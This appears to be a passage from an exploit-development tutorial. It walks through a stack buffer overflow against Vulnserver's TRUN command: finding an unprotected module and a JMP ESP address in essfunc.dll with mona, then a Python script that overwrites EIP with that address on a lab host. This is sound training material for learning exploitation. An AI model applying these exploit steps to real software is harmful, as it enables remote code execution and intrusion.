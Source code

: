# Finding the Right Module
Identify a component that lacks memory protection settings. 

To accomplish this, we will utilize the mona tool, which can assist in finding the correct module.

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/7vB0Gdn/Picture1.png"></img>

Our next step involves identifying an opcode equivalent to `JMP ESP`. To achieve this, we will rely on the `Metasploit` module name `nasm_shell.rb`.

<img alt="" class="bg hc hd c" width="1000" height="225" loading="lazy" role="presentation" src="https://i.ibb.co/DK9tp99/Picture2.png"></img>

 We seek is `FFE4`. To pinpoint the memory address containing the `FFE4 (JMP ESP)` opcode within `essfunc.dll`, we can utilize the following `mona` command
```cli
!mona find -s "\xff\xe4" -m essfunc.dll
```
<img alt="" class="bg hc hd c" width="1000" height="300" loading="lazy" role="presentation" src="https://i.ibb.co/C0RC5ZB/Picture3.png"></img>

We have identified the memory address that contains the `JMP ESP` opcode, which is `625011AF` memory address. Our next goal is to gain full control of the `EIP` (Extended Instruction Pointer). We can accomplish this by setting a breakpoint at the `625011AF` address within Immunity Debugger, overflowing the buffer, and placing `625011AF` in `EIP` to verify if our breakpoint activates. To facilitate this, we can adjust our Python script and insert the return address, which should be in reverse order `(\xaf\x11\x50\x62)`.

```python

#!/bin/python

import sys
import socket
from time import sleep



shellcode = "A"* 2002 + "\xaf\x11\x50\x62"
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to the server"
      sys.exit()                  

```
<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/7Cvr1dB/Picture4.png"></img>
